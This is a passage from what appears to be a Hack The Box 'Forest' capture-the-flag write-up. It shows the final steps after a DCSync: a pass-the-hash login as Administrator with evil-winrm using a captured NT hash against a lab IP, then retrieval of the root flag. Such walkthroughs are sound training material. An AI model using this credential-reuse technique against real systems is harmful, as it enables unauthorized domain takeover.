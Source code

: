 {{<figure src="/img/htb/forest/dcsync.png" position=center caption="DCSync">}}

We can use the Administrator's NThash to login via `winrm`:

{{<code language="bash" title="Login via winrm as Administrator">}}
evil-winrm -i 10.129.30.97 -u Administrator -H '32693b11e6aa90eb43d32c72a07ceea6'
{{</code>}}

We can then retrive the root flag.

{{<figure src="/img/htb/forest/root_flag.png" position=center caption="Root flag obtained !">}}

